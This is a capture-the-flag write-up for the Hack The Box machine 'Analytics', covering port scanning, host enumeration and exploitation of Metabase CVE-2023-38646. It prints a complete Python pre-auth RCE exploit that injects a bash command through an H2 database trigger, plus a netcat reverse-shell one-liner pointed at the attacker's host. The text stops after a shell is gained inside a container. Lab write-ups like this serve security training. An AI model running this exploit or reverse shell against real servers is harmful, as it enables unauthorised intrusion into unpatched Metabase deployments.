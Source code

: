 # Box: Analytics
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.72.97 -v -p- -T4```

```
Nmap scan report for 10.129.72.97
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/20%OT=22%CT=1%CU=30989%PV=Y%DS=2%DC=T%G=Y%TM=653231
OS:FD%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 5.516 days (since Sat Oct 14 20:29:52 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   258.16 ms 10.10.14.1
2   258.16 ms 10.129.72.97

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 08:53:33 2023 -- 1 IP address (1 host up) scanned in 1121.13 seconds
```
From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d3d74bd8-0a57-4128-9e59-86306d4f83cb)

Lets add that to our ```/etc/hosts``` file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/analytics]
└─$ sudo nano /etc/hosts      
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/analytics]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       bl4ck4non-sec

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.72.96 analytical.htb
```
Going back to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/69270f11-6834-464a-9a71-14cbcab1f1a9)

Trying to login, I saw this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/99a466c8-7913-442b-ac12-d4f133ef79e6)

Add the subdomain to the ```/etc/hosts``` file.

Now, lets navigate back to that subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a94b256f-1ab5-4ef2-b0cb-56b8ad6862f2)

Doing my research I saw that there's a recent exploit for ```metabase```. Lets exploit hehe


# Exploitation

You can check out this [blog](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396), if you need an in-depth knowledge.

First thing to do is grab our set-up token from the api endpoint ```/api/session/properties```.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35f17142-a140-42f4-8ac7-69d024618bd1)

Lets capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/934c1a33-24b2-4ff3-b982-690b8b7498aa)

cool, we got the token. 

We'll be using this python script to get RCE

```python
from argparse import ArgumentParser
from string import ascii_uppercase

import base64
import random
import requests


def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')

    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()

    return encoded_payload


parser = ArgumentParser('Metabase Pre-Auth RCE Reverse Shell', 'This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646')

parser.add_argument('-u', '--url', type=str, required=True, help='Target URL')
parser.add_argument('-t', '--token', type=str, required=True, help='Setup Token from /api/session/properties')
parser.add_argument('-c', '--command', type=str, required=True, help='Command to be execute in the target host')

args = parser.parse_args()

print('[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]\n')

print('[+] Initialized script')

print('[+] Encoding command')

command = encode_command_to_b64(args.command)

url = f'{args.url}/api/setup/validate'

headers = {
    "Content-Type": "application/json",
    "Connection": "close"
}

payload = {
    "token": args.token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(random_string = ''.join(random.choice(ascii_uppercase) for i in range(12)), command=command),
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

print('[+] Making request')

request = requests.post(url, json=payload, headers=headers)

print('[+] Payload sent')`
```
Save this in a file, say "exploit.py".

To run the script, we just need the target url and the setup token. We'll also include our payload we want to execute. I'll be susing this payload ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc LHOST LPORT >/tmp/f```, ensure you set your ```LHOST``` and ```LPORT```. Also, set up your netcat listener

Now, lets run the script

command:```python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.61 1234 >/tmp/f"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/23bd10bd-393f-4583-bd90-d1868637580c)

nice nice, we spawned a shell as user ```metabase```.

You can use the below commands to stabilize the shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```
Well, this ain't working😂. Just realized now that we are in a docker container























